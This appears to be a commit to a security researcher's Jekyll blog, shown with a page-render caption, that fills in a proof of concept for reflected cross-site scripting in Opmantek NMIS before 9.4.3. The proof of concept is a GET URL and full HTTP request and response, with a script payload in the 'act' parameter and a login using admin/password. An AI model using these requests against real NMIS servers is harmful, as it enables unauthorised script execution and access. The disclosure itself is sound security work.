

Before and after one commit to inf0seq/inf0seq.github.io, a Jekyll site: the page built from _posts/2023-04-06-Cross-site scripting (XSS) in Opmantek NMIS module before 9.4.3.md, in a window 1280 px wide and 1400 px high, scrolled down 303 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2023-04-06-Cross-site scripting (XSS) in Opmantek NMIS module before 9.4.3.md

```diff
--- a/_posts/2023-04-06-Cross-site scripting (XSS) in Opmantek NMIS module before 9.4.3.md
+++ b/_posts/2023-04-06-Cross-site scripting (XSS) in Opmantek NMIS module before 9.4.3.md
@@ -29,8 +29,86 @@ The following Proof of Concept (PoC) demonstrates the attack as well as displayi
 
 #### Request:
 {% highlight ruby %}
-POC:
-TBA
+
+Reproducing of Cross-Site scripting
+
+1.GET Request
+
+https://1.2.3.4/cgi-nmis9/config.pl?act=%3Cscript%3Ealert(1)%3C/script%3E&section=system&item=hide_groups
+
+2. User admin/password in this case getting logged on, when injected java script gets executed.
+
+3. Final HTTP Request/Response
+
+Request:
+
+POST /cgi-nmis9/config.pl HTTP/1.1
+Host: 1.2.3.4
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
+Accept-Language: en-US,en;q=0.5
+Accept-Encoding: gzip, deflate
+Content-Type: multipart/form-data; boundary=---------------------------219772600018532218693195954924
+Content-Length: 1030
+Origin: https://1.2.3.4
+Referer: https://1.2.3.4/cgi-nmis9/config.pl
+Upgrade-Insecure-Requests: 1
+Sec-Fetch-Dest: document
+Sec-Fetch-Mode: navigate
+Sec-Fetch-Site: same-origin
+Sec-Fetch-User: ?1
+Te: trailers
+Connection: close
+
+-----------------------------219772600018532218693195954924
+Content-Disposition: form-data; name="auth_username"
+
+admin
+-----------------------------219772600018532218693195954924
+Content-Disposition: form-data; name="auth_password"
+
+password
+-----------------------------219772600018532218693195954924
+Content-Disposition: form-data; name="login"
+
+Login
+-----------------------------219772600018532218693195954924
+Content-Disposition: form-data; name="conf"
+
+
+-----------------------------219772600018532218693195954924
+Content-Disposition: form-data; name="login"
+
+Login
+-----------------------------219772600018532218693195954924
+Content-Disposition: form-data; name="act"
+
+<script>alert(1)</script>
+-----------------------------219772600018532218693195954924
+Content-Disposition: form-data; name="section"
+
+system
+-----------------------------219772600018532218693195954924
+Content-Disposition: form-data; name="item"
+
+hide_groups
+-----------------------------219772600018532218693195954924--
+
+
+Response:
+
+HTTP/1.1 200 OK
+Date: Wed, 04 Jan 2023 07:07:13 GMT
+Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
+Expires: Wed, 04 Jan 2023 07:07:15 GMT
+Set-Cookie: omk=eyJhdXRoX2RhdGEiOiJhZG1pbiIsImV4cGlyZXMiOjE2NzI4MTc4MzV9--a1cfd6a852976485aaba2df83a25208834899b73; path=/; expires=Wed, 04-Jan-2023 07:37:15 GMT; HttpOnly
+Connection: close
+Content-Type: text/html; charset=ISO-8859-1
+Content-Length: 77
+
+Config: ERROR, act=<script>alert(1)</script>, node=, intf=
+Request not found
+
 {% endhighlight %}
 
 #### References:
```
